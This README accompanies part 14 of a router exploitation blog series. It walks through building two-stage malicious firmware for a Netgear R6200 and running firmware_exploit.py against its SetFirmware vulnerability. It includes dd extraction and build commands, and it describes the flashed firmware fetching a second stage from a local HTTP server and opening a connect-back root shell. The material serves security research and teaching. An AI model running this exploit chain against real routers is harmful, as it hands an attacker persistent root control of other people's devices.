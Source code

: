 ##Broken, Abandoned, and Forgotten Code, Part 14

This code corresponds with [part 14](http://shadow-file.blogspot.com/2015/11/abandoned-part-14.html) of the Broken, Abandoned, and Forgotten Code series. In this part we build the second stage firmware image that will be flashed to the device by stage 1 and, after rebooting, will provide a remote root session.

There have been substantial changes to the part 14 code from the previous part. While ``setfirmware.py`` is still present, there is a new exploit script, ``firmware_exploit.py``. This script uses classes declared in the former. It also provides the various connect-back servers you require to serve connections to the first and second stage payloads. It requires no command line arguments. Instead, configuration parameters are specified in ``environment.py``, which is thoroughly documented.

A build system to create the stage 1 and 2 firmware images can be found in payload-src. However, there are a few pieces I didn't include due to licensing.

* Kernel image (proprietary Netgear EULA)
* Root filesystem (proprietary Netgear EULA)
* mtd writing utility from OpenWRT (GPL licensed)

You can extract the filesystem and kernel from a stock Netgear firmware image. I used and tested the Netgear firmware R6200-V1.0.0.28_1.0.24.chk:

    $ md5sum R6200-V1.0.0.28_1.0.24.chk
    0bbb9004c8cddf2d9602719c34c9e33e  R6200-V1.0.0.28_1.0.24.chk

Identify the offsets and sizes of the kernel and filesystem components using binwalk, and then extract them using `dd`:

     $ dd if=R6200-V1.0.0.28_1.0.24.chk of=squashfs.bin skip=1328446 bs=1
     $ dd if=R6200-V1.0.0.28_1.0.24.chk of=kernel-lzma.bin skip=86 bs=1 count=1328360

Put ``kernel-lzma.bin`` into payload-src/.

Unpack the squashfs.bin into a root filesystem. Extracting a SquashFS filesystem is beyond the scope of this documentation.

You'll need to put a copy of the non-minimized root filesystem in place for stage 2. Put an unmodified ``rootfs.tar.gz`` in ``exploit-src/stage2/src/``.

Then, you'll need to generate a minimized root filesytem directory as described in [part 11](http://shadow-file.blogspot.com/2015/07/abandoned-part-11.html).

Tar up your minimized root filesystem, and put ``rootfs.tar.gz`` in ``exploit-src/stage1/src/``.

The mtd writer is responsible for flashing the stage 2 firmware image. I have modified this utility from OpenWRT to work with this project. Check out the source and put it in place:

    $ git clone https://github.com/zcutlip/mtdwriter.git
    $ tar zcvf broken_abandoned/part_13/exploit-src/stage1/src/mtdwriter.tar.gz mtdwriter/

You'll also need a little endian MIPS gcc toolchain. Ensure ``mipsel-linux-gcc`` and friends are in your ``$PATH``.

With the missing pieces in place, you can build the stage 1 and 2 firmware images:

    $ cd exploit-src/
    $ ./buildmipsel.sh

This will generate ``stage1.chk`` and ``stage2mtd.bin`` files. Put them in the SRVROOT directory specified in ``environment.py``.

With this update, assuming you've generated a working, minimized firmware, you should be able to exploit the ``SetFirmware`` vulnerability, and flash your firmware image to the router. Edit environment.py and specify the appropriate connect-back ports, target IP address and port, names of stage 1 and 2 files, and the directory to serve them out of. Then run:

``./firmware_exploit.py``

Upon rebooting, the stage 1 firmware will attempt to download the second stage from ``http://10.12.34.56:8080/stage2mtd.bin``. Then, if all goes well, there is a second reboot and then a connect-back shell to the IP address and port you specified in the ``telnetenabled`` script.
